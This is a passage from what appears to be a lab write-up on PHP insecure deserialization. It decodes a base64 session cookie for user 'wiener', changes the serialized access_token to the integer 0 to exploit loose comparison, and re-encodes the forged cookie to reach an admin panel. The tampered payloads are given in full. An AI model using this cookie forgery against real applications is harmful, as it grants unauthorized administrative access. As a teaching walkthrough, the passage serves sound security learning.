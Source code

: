 
- we note the session cookie may be interesting: `Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJreWF3MmFrd2t4dDBheDF1bGNwZWk4ZzhhYjFiNnp2eiI7fQ%3d%3d`
- go to cyberchef and decode it

<img src=./images/Capture6.PNG alt="img6" width="700"/>

- The value after decoding is: `O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"kyaw2akwkxt0ax1ulcpei8g8ab1b6zvz";}`
- after examining it carefully we find the attribute **access_token** with string value which may be compared againest other string
- so let's try to make it integer with value 0 and if the comparison is loose comparison the condition will be true
- change it to `O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";i:0;}`
- then encode it again to be `Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtpOjA7fQ%3D%3D`
- send the request again but make sure to change the value of the cookie with the new value
- you will find a new functionality for the user wiener which is **admin panel**

<img src=./images/Capture3.PNG alt="img3" width="700"/>
